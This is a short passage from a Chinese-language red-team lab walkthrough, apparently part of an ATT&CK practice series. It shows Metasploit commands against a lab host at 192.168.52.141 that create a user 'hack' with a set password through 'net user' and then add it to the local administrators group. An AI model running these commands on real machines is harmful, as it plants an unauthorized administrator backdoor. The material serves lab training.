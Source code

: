 


```bash
set rhosts 192.168.52.141        //设置IP地址为目标主机的IP地址

set COMMAND net user hack 123.com /add    //设置要添加的账号和密码，密码在设置的时候要注意：这里的密码设置有一个策略的问题存在，所以我们在设置密码的时候需要搞得复杂一点，不然过不了

exploit        //执行
```

得到以下的结果，说明执行成功

![image-20231117165716050](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117165716050.png)

继续执行，将创建的`hack`用户添加到管理员组

```bash
set command net localgroup administrators hack /add
exploit
```
